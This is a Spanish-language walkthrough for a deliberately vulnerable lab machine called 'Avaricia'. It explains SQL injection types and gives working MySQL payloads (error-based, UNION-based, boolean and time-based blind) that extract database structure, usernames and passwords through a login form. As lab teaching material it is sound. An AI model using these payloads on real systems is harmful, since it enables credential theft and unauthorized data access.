= Avaricia
:author: Manuel L. Quero
:revdate: 2025-03-31
:toc: left
:doctype: book

<<<

== Ataque SQL Injection (SQLi)

Los ataques de inyección SQL se basan en la manipulación de bases de datos SQL mediante la inserción de consultas maliciosas en campos de entrada. Esto permite a un atacante alterar datos, acceder a información confidencial y realizar acciones no autorizadas. Un usuario malintencionado podría:

* Suplantar la identidad de otro usuario con más privilegios.
* Elevar sus propios permisos o los de otros hasta niveles administrativos.
* Manipular datos existentes o eliminarlos.
* Obtener acceso a información sensible almacenada en la base de datos.

Existen tres grandes grupos de ataques SQLi:

=== 1. In-band SQL injection

Este es el tipo de ataque SQLi más clásico y directo. Se caracteriza porque el atacante envía consultas SQL maliciosas y recibe los resultados por el mismo canal de comunicación, generalmente como una respuesta de la base de datos en una página web.

Dentro de este grupo encontramos dos subtipos:

==== a. Error-based SQL injection

Este ataque explota los mensajes de error devueltos por la base de datos para obtener información sensible. Aunque estos errores pueden parecer inofensivos, un atacante puede utilizarlos para:

* Obtener la versión de la base de datos y poder usar ataques específicos dependiendo de la versión.
* Conocer la estructura de la base de datos para poder intentar SQLi más específicas.
* Extraer datos de la base de datos. El proceso es más largo y complejo pero se pueden manipular los errores para extraer datos.

==== b. Union-based SQL injection

Este ataque utiliza la cláusula *UNION* para combinar en una misma consulta información legítima con datos sensibles. Es un método especialmente peligroso, ya que permite al atacante recuperar casi cualquier dato almacenado en la base de datos con una única consulta.

=== 2. Blind SQL Injection

Las inyecciones SQL a ciegas son una variante en la que el atacante no recibe respuestas directas de la base de datos. En lugar de obtener mensajes de error o resultados visibles, debe inferir la información mediante observación indirecta.

Este tipo de ataques funciona como un sistema de "verdadero o falso", donde el atacante prueba diferentes consultas y analiza los cambios en el comportamiento del sistema.

Si quieres saber más sobre este tipo de ataques puedes mirar -> https://www.exploit-db.com/docs/47367[Inyección SQL a ciegas]

Dentro de este grupo encontramos dos subtipos:

==== a. Boolean-Based SQL Injection

En este ataque, el atacante inyecta una condición que evalúa si es *TRUE* o *FALSE*, observando las diferencias en la respuesta del servidor. Normalmente, se utiliza la cláusula *AND* para construir estas pruebas.

==== b. Time-based SQL Injection

En este caso, el ataque se basa en utilizar funciones como *SLEEP()* o *BENCHMARK()* para medir los tiempos de respuesta y determinar si una consulta se ejecutó correctamente.

=== 3. Out-of-band SQL injection (OOB SQLi)

El ataque de SQL fuera de banda consiste en enviar la información consultada a través de un canal diferente al utilizado para la interacción con la aplicación. El atacante usa comandos SQL para que envíen información a través de una conexión de red directa, una solicitud DNS o una solicitud HTTP

<<<

== Solucionar la máquina

Vamos a ver cómo realizar los diversos tipos de ataques de inyección SQL que hemos visto anteriormente y ver las respuestas que nos dan, además de entender las consultas que realizamos.

=== Despliegue de la máquina

En un directorio deberemos tener el auto_deploy.sh, avaricia.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh avaricia.tar
----

En nuestro caso la base de datos usa Mysql, podemos ver una guía de los distintos payloads para otros servicios de bases de datos -> https://portswigger.net/web-security/sql-injection/cheat-sheet[SQLiCheatSheet].

=== 1. In-band SQL injection

==== a. Error-based SQL injection

Con este ataque, podremos obtener mucha información sobre la base de datos, desde su versión hasta contraseñas.

===== Reconocimiento

Pero antes de esto deberemos comprobar si nos muestra los errores o no para ello deberemos hacer la siguiente consulta:

----
Usuario: '
Contraseña: 1234
----

Al poner esa comilla simple, se cierra la consulta que hace la web al servidor de mysql, por lo que el resto sería un error en la sintaxis de sql.





===== Payloads

Para cada uno de ellos utilizaremos la clausula updatexml(), que permite modificar datos XML dentro de bases de datos MySQL. En nuestro caso lo usaremos para lanzar los errores y mostrar su contenido como un mensaje.

----
UPDATEXML(xml_target, xpath_expr, new_value)
----

*Obtener la versión del motor de MySQL*

----
Usuario: ' AND updatexml(null, concat(0x3a, @@version), null) -- '
Contraseña: 
----

* *'* -> Esto es un carácter de comilla simple que cierra la consulta original y nos permite iniciar la nuestra.
* *AND* -> Añadimos una condición a la consulta original.
* *updatexml()* -> La función intenta procesar una expresión XML, pero si se le pasa un valor que no es válido como XML (en este caso, un valor concatenado con concat), lanzará un error. El contenido que se pase dentro de concat() se convierte en el mensaje de error, lo que permite al atacante obtener información sensible.
- *null* -> Sirve para no afectar al ataque.
- *concat(0x3a, @@version)* -> Con esto, concatenaremos varias cadenas, el valor de _0x3a_ en hexadecimal corresponde con el carácter :, que se usará como separador entre los valores concatenados. Y _@@version_ es una variable global en MySQL que devuelve la versión del servidor.
- *null* -> Sirve para no afectar al ataque.
- *--* -> Sirven para que el resto de consulta sea comentado y sea ignorado.
- *'* -> Este carácter es para cerrar la otra comilla simple y que no nos de ningún error, y así se pueda comentar el resto de la consulta correctamente.





*Obtener el nombre de la base de datos actual*

----
Usuario: ' AND updatexml(null, concat(0x3a, database()), null) -- '
Contraseña: 
----

Como podemos ver la sintaxis es la misma que el anterior pero cambia el contenido del concat().

* *database()* -> Esta es una función de MySQL que devuelve el nombre de la base de datos actual a la que está conectado el servidor MySQL.

*Obtener el nombre de la primera tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.tables* -> _information_schema_ es una base de datos especial en MySQL que contiene información sobre todas las bases de datos y sus tablas. La tabla tables contiene los nombres de todas las tablas de una base de datos.

* *table_schema=database()* -> database() devuelve el nombre de la base de datos actual. Al usar esta función dentro de la consulta, estás buscando las tablas dentro de la base de datos actual.

* *LIMIT 0,1* -> Esto limita los resultados de la consulta a una sola fila. De esta forma obtendremos solo el primer nombre de tabla de la base de datos.





*Obtener el nombre de la primera columna de una tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.columns* -> Esta tabla contiene información sobre las columnas de todas las tablas de la base de datos. Se puede consultar para obtener detalles sobre las columnas de una tabla específica.

* *table_name='usuarios'* -> Aquí estamos buscando las columnas de la tabla llamada usuarios (que lo podemos obtener de la anterior consulta).

* *LIMIT 0,1* -> Limitamos el resultado a solo una columna para facilitar la consulta y evitar que se devuelvan demasiados resultados.



*Extraer usuarios y contraseñas (u otras columnas)*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT usuario FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

Como ya sabemos la tabla y podemos conocer las distintas columnas que tiene, se hace más sencilla la busqueda de información. En este caso, vamos a extraer el nombre del primer usuario.

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT password FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

También podemos ver las contraseñas si sabes la columna en la que están. Si queremos ver otros datos de la misma columna podemos cambiar el LIMIT a LIMIT(1,1).

image::assets/in-band/error-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/error-based/Contraseñas2.png[Contraseñas2]

==== b. Union-based SQL injection

===== Reconocimiento

Para este tipo de ataques es importante conocer cuantas columnas tiene la consulta original, para que las columnas que inyecta el UNION coincidan.

Entonces, podemos usar el payload anterior para obtener el nombre la columna empezando por LIMIT(0,1) hasta que nos de error.

----
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
----

O podemos usar un payload UNION para ir sacando mediante NULL la cantidad de columnas que tiene.

----
Usuario: ' UNION SELECT NULL, NULL, NULL, NULL,(...) -- '
Contraseña: 
----

Aclarar que los (...) son NULL en caso que la tabla tenga más columnas. Si la tabla tiene seis columnas se deberán añadir dos NULL más al payload.

De esta forma, sabremos la estructura de la tabla y podremos incluso acceder, aunque no tengamos datos de nadie todavía. Esto nos permitirá inyectar datos específicos.

===== Payloads

*Recuperar el nombre de la base de datos*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), database() -- '
Contraseña: 
----

Este payload lo que nos mostrará será el nombre de la base de datos en la posición que pongamos database(), es decir, si la tabla tiene seis columnas y en la cuenta se muestran los datos de las tres últimas columnas, tendremos que poner database() en alguna de esas posiciones para obtener los datos, en este caso el nombre de la base de datos.

*Recuperar el nombre de las tablas*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- '
Contraseña: 
----

* *group_concat(table_name)* -> Esta función de MySQL concatena todos los nombres de las tablas en la base de datos, obteniendolas separadas por comas.

* *information_schema.tables* -> Esta tabla contiene información sobre todas las tablas en todas las bases de datos en MySQL. La consulta se limita a la base de datos actual utilizando WHERE *table_schema=database()*.



*Recuperar los nombres de las columnas de una tabla específica*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(column_name) FROM information_schema.columns WHERE table_name='usuarios' -- '
Contraseña: 
----

* *group_concat(column_name)* -> Similar al paso anterior, esta función concatenará los nombres de las columnas de la tabla usuarios y los devolverá como un solo resultado.

* *information_schema.columns* -> Esta tabla contiene información sobre todas las columnas de todas las tablas en MySQL. Al limitarla por table_name='usuarios', obtenemos los nombres de las columnas de la tabla usuarios.



*Extraer datos de las columnas (usuarios, contraseñas u otras columnas)*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(usuario) FROM usuarios -- '
Contraseña: 
----

* *group_concat(usuario)* -> Aquí estamos extrayendo los datos de la columna usuario de la tabla usuarios y concatenándolos para que todos los nombres de usuario sean devueltos en una sola cadena separada por comas.



----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(password) FROM usuarios -- '
Contraseña: 
----

* *group_concat(password)* -> Similar al paso anterior, pero en este caso estamos extrayendo los valores de la columna password de la tabla usuarios.

image::assets/in-band/union-based/Contraseñas1.png[Contraseñas1]

image::assets/in-band/union-based/Contraseñas2.png[Contraseñas2]

=== 2. Blind SQL Injection

==== a. Boolean-Based SQL Injection

En los ataques boolean-based se usan operadores lógicos como AND u OR para alterar las condiciones de una consulta SQL. AND se usa cuando se conoce una condición válida (como un usuario) y se quiere comprobar si otra también lo es, por ejemplo 1=1. OR, en cambio, permite que la consulta sea verdadera si al menos una condición se cumple, como usuario = 'admin' OR 1=1, forzando así una respuesta positiva.

En nuestro caso, vamos a usar AND ya que con los anteriores resultado sabemos que existe el usuario *admin* y *user*. En caso de que no conozcamos estos datos se recomienda usar OR.

===== Reconocimiento

Ahora valuaremos si la página es vulnerable a este tipo de ataques, la lógica de esta página es que si es verdad nos dejará acceder, si es falso nos dirá que las credenciales son incorrectas. A este tipo de ataques se les suele hacer un script para automatizar la iteración y obtener respuestas para cosas más específicas.

----
Usuario: admin' AND 1=1 --
Contraseña: 
----

----
Usuario: admin' AND 1=2 --
Contraseña: 
----



===== Payloads

*Inferir nombre de la base de datos*

En esta parte, cómo queremos algo muy específico que es el nombre de la base de datos, podemos ir letra por letra para ir sacando el nombre de la base de datos o tener un script y usar un diccionario para sacarlo más rápido. En este caso buscamos *banco*.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'a' -- 
Contraseña:
----

Y así deberemos seguir con cada letra, obviamente esto no está pensado para hacerlo así y hay scripts que solucionan estos problemas. Una herramienta muy eficaz es https://github.com/sqlmapproject/sqlmap[sqlmap].

* *SUBSTRING(database(),1,1)* -> Toma el primer carácter del nombre de la base de datos. Para pasar al siguiente caracter sería SUBSTRING(database(),2,1), etc.
* *= 'b'* -> Compara si ese carácter es 'b'.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'b' -- 
Contraseña:
----



*Inferir nombre de tablas*

En este caso buscamos *usuarios* en la base de datos actual.

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'a' -- 
Contraseña:
----

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'u' -- 
Contraseña:
----



Este payload consulta la primera tabla del esquema actual y verifica si empieza con la letra 'u'. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer columnas de una tabla*

En este caso buscamos *usuario* en la tabla *usuarios*.

----
Usuario: admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_name='usuarios' LIMIT 1,1) = 'u' -- 
Contraseña:
----

Y al igual que el resto se debe de ir carácter por carácter para obtener la pálabra correcta. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer datos*

En este caso buscamos *admin123* en la columna *password*.

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,1,1) FROM usuarios LIMIT 1,1) = 'u' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña1.png[Contraseña1]

image::assets/blind/boolean-based/Contraseña2.png[Contraseña2]

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,2,1) FROM usuarios LIMIT 1,1) = 's' -- 
Contraseña:
----

image::assets/blind/boolean-based/Contraseña3.png[Contraseña3]

image::assets/blind/boolean-based/Contraseña4.png[Contraseña4]

===== Aclaración

Como hemos visto, este ataque es muy repetitivo, por lo que he recalcado que es mucho más eficaz realizarlo mediante un script. Además, en un caso real no conoceremos de antemano ninguna información, por eso he explicado en cada paso qué es lo que busco, para ir directo al objetivo y no perder tiempo con pruebas innecesarias.

==== b. Time-based SQL Injection

Este tipo de ataque es muy parecido al anterior, por lo que también recomendaría usar un script

===== Reconocimiento

En este tipo de ataques, notaremos que si es verdadero la página empezará a cargar, si es falso la página se actualizará con normalidad.

----
Usuario: admin' AND IF(1=1, SLEEP(5), 0) -- 
Contraseña:
----



